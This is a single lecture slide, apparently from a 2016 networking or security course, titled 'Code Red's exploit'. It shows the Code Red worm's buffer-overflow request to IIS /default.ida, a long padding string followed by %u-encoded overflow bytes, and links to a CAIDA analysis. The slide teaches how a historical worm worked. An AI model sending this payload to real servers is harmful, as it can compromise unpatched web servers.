

33
# Code Red’s exploit
/default.ida?NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNN%u9090%u6858%ucbd3%u78
01%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%
u9090%u9090%u8190%u00c3%u0003%u8b00%u531b%u53ff%u00
78%u0000%u00=a

More: http://www.caida.org/analysis/security/code-red/

Marco Canini, © 2016
18 Feb 2016